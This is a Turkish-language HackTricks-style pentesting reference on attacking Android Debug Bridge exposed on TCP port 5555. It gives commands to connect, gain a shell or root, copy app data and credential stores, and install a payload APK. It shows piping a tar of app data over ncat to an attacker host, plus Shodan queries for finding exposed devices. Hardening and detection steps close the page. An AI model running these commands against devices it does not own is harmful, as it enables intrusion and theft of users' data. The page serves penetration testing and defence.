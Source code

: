 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb), Android tabanlı cihazlar ve emülatörlerle iletişim kurmak için bir komut satırı aracıdır. Tipik eylemler arasında paket yükleme, hata ayıklama ve cihazda etkileşimli bir Unix kabuğu alma bulunmaktadır.

- Tarihsel varsayılan TCP portu: 5555 (klasik "adb tcpip" modu).
- Modern Kablosuz hata ayıklama (Android 11+) TLS eşleştirme ve mDNS hizmet keşfi kullanır. Bağlantı portu dinamik olup mDNS aracılığıyla keşfedilir; 5555 olmayabilir. Eşleştirme, adb pair host:port ile yapılır ve ardından adb connect gelir. Aşağıdaki notlara saldırgan etkileri için bakın.

Örnek nmap parmak izi:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Bağlan

Eğer ADB'yi açık ve erişilebilir bulursanız, hızlıca bağlanmayı ve listelemeyi deneyin:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Eğer cihaz ADB kimlik doğrulamasını zorluyorsa (ro.adb.secure=1), önceden yetkilendirilmiş olmanız (USB RSA kimlik doğrulaması) veya Android 11+ Kablosuz hata ayıklama eşleştirmesini kullanmanız gerekecek (bu, cihazda görüntülenen bir kerelik kodu gerektirir).
- Bazı üretici görüntüleri, mühendislik/kullanıcı hata ayıklama derlemeleri, emülatörler, TV'ler, STB'ler ve geliştirme kitleri, kimlik doğrulaması olmadan veya adbd'nin root olarak çalıştığı durumlarda adbd'yi açığa çıkarır. Bu durumlarda genellikle doğrudan bir shell veya root shell'e geçersiniz.

Genel bir ADB komut referansı için, bakınız:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Hızlı Post-Exploitation

Shell'e sahip olduğunuzda, ayrıcalıkları ve SELinux bağlamını doğrulayın:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Verileri Listele ve Yakala

- Üçüncü taraf uygulamaları ve yolları listele:
```bash
pm list packages -3
pm path <pkg>
```
- Eğer root erişiminiz varsa (adb root veya su çalışır), /data'ya doğrudan erişebilirsiniz. Aksi takdirde, hata ayıklanabilir uygulamalar için run-as kullanmayı tercih edin:
```bash
# Root olmadan, hata ayıklanabilir bir uygulama için
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Root ile
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Kullanışlı sistem belgeleri (root gereklidir):
- /data/system/users/0/accounts.db ve ilgili AccountManager verileri
- /data/misc/wifi/ (eski sürümlerde ağ yapılandırmaları/anahtarlar)
- /data/data/<pkg> altında uygulamaya özel SQLite DB'ler ve shared_prefs

Bunu hassas bilgileri (örneğin, uygulama sırları) almak için kullanabilirsiniz. Chrome veri dikkate alımları hakkında notlar için, [burada](https://github.com/carlospolop/hacktricks/issues/274) belirtilen konuyu inceleyin.

### Kod yürütme ve yük teslimi

- Yükleme ve çalışma zamanı izinlerini otomatik olarak verme:
```bash
adb install -r -g payload.apk         # -g, manifestte belirtilen tüm çalışma zamanı izinlerini verir
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Etkinlikleri/hizmetleri/broadcast'leri doğrudan başlat:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port yönlendirme ve pivotlama

Root olmadan bile, adb yerel portları cihaz portlarına ve tersine yönlendirebilir. Bu, cihazda yerel olarak bağlı hizmetlere erişmek veya saldırgan hizmetlerini cihaza açmak için yararlıdır.

- Host->cihaz yönlendirme (cihazda yerel bir hizmete ev sahibi bilgisayarınızdan erişim):
```bash
adb forward tcp:2222 tcp:22       # Cihaz SSH çalıştırıyorsa (örneğin, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Uygulamanın yerel hata ayıklama sunucusunu aç
```
- Ters cihaz->host yönlendirme (cihazın ev sahibi bilgisayarınızdaki bir hizmete ulaşmasına izin verme):
```bash
adb reverse tcp:1080 tcp:1080     # Cihaz uygulamaları artık host:1080'e 127.0.0.1:1080 olarak ulaşabilir
```
- Soketler üzerinden dosya dışa aktarımı (sdcard yazma yok):
```bash
# Host'ta: dinle
ncat -lvp 9000 > dump.tar
# Cihazda: dizini tar olarak gönder (root veya run-as uygun olduğunda)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Kablosuz Hata Ayıklama (Android 11+)

Modern Android, cihaz tarafı eşleştirme ve mDNS keşfi ile TLS korumalı kablosuz hata ayıklama uygular:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notlar
- Portlar dinamik; 5555 varsaymayın. mDNS hizmet adları şöyle görünür:
- _adb-tls-pairing._tcp (eşleştirme)
- _adb-tls-connect._tcp (eşleştirilmiş bağlantı)
- _adb._tcp (eski/normal)
- Eğer mDNS filtrelenmişse, klasik USB destekli etkinleştirme bazı sürümlerde hala çalışabilir: `adb tcpip 5555` ardından `adb connect <ip>:5555` (yeniden başlatmaya kadar).

Saldırgan etkileri: Cihazın UI'si ile etkileşimde bulunabiliyorsanız (örneğin, fiziksel erişim veya mobil MDM yanlış yapılandırması) Kablosuz hata ayıklamayı etkinleştirip eşleştirme kodunu görebilirseniz, kablo olmadan uzun süreli eşleştirilmiş bir ADB kanalı kurabilirsiniz. Bazı OEM'ler, eşleştirme olmadan mühendislik/geliştirme görüntülerinde ADB'yi TCP üzerinden açar—her zaman kontrol edin.

## Güçlendirme / Tespit

Savunucular, erişilebilir herhangi bir adbd (TCP) için kritik risk olduğunu varsaymalıdır.

- Gerekmediğinde ADB ve Kablosuz hata ayıklamayı devre dışı bırakın. Geliştirici seçeneklerinde USB hata ayıklama yetkilendirmelerini iptal edin.
- Ağ politikasının, güvenilmeyen segmentlerde gelen TCP/5555 ve mDNS tabanlı ADB keşfini engellediğinden emin olun.
- Kontrolünüz altındaki cihazlarda:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP dinlemeyi devre dışı bırak (veya kullan: adb usb)
stop adbd; start adbd             # daemon'ı yeniden başlat
```
- Kurumsal ağlarda `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` için mDNS kayıtlarını izleyin ve beklenmeyen 5555 dinleyicileri için uyarılar oluşturun.
- Güvensiz sürümler için envanter: `getprop ro.debuggable`, `ro.build.type`, ve `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referanslar

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, eşleştirme ve mDNS hizmet adları: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
